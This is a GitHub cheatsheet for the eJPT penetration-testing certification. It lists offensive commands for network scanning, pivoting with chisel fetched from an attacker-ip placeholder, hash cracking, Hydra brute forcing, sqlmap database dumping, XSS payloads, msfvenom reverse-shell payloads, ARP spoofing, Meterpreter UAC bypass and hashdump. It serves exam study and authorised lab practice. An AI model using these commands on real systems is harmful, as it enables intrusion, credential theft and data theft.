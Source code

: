 # eJPT-Cheatsheet

## fPing
fping -a -g x.x.x.x/24 2>/dev/null > targets

## Nmap
nmap -sn x.x.x.x/24\
nmap -sV -p- -iL targets -oN nmap.initial -v\
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p<port> --script=vuln -v <target-IP>

**Custom nmap scan (Not from the course)**
nmap -p- -sS --open -T4 -n -Pn -iL targets -oN alltargetports
nmap -sCV -pxxx,xxx,xxxx -Pn -vvv x.x.x.x -oN portversion

## IP Route
**Syntax**\
ip route add \<Network-range\> via \<router-IP\> dev \<interface\>\
eg.\
ip route add x.x.x.x/24 via x.x.x.x dev tap0

## Pivoting without Metasploit
**For this I will use chisel tool**
**Pass chisel to the machine to pivot**
(Attacker) python -m SimpleHTTPServer xxxx
           nc -lvp
(Machine to pivot) wget <attacker-ip>:xxxx/chisel

**Attacker machine**
./chisel server --reverse -p xxxx

**Machine to pivot**
./chisel client <attacker-ip> 127.0.0.1:xxxx:<target-ip>:xxxx

## John
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

## dirb
dirb http://x.x.x.x/ \
dirb http://x.x.x.x/dir -u admin:admin

*Faster using dirbuster. Threads at 20 and use /usr/share/wordlists/dirb/common.txt wordlist. Larger wordlists are not worth it for the exam*

## Netcat
**Listening for reverse shell**\
nc -lvp 1234

**Banner Grabbing**\
nc -nv x.x.x.x \<port\>

## SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id\
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id --dbs\
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://x.x.x.x/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://x.x.x.x/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u x.x.x.x ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u x.x.x.x ssh\
*Replace ssh for other services when needed*

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V


## XSS
\<script\>alert(1)\</script\>\
\<ScRiPt\>alert(1)\</ScRiPt\>

*XSS filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

**PHP non meterpreter**\
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

## Metasploit Meterpreter autoroute
run autoroute -s x.x.x.x/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t x.x.x.x -r x.x.x.x

## SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //x.x.x.x/\
enum4linux -U -M -S -P -G x.x.x.x\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains x.x.x.x -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* x.x.x.x -v

**Access Share**\
smbclient //x.x.x.x/share_name

## FTP Enumeration
nmap --script=ftp-anon x.x.x.x -p21 -v\
nmap -A -p21 x.x.x.x -v

**Login to FTP server**\
ftp x.x.x.x

**Login to FTP server no common port**
ftp x.x.x.x xxxx

## Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid\>\
hashdump
  
## Windows Command Line
**Search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"

**Routing table**\
route print\
netstat -r

**Check Users**\
net users

**List drives on the machine**\
wmic logicaldisk get Caption,Description,providername


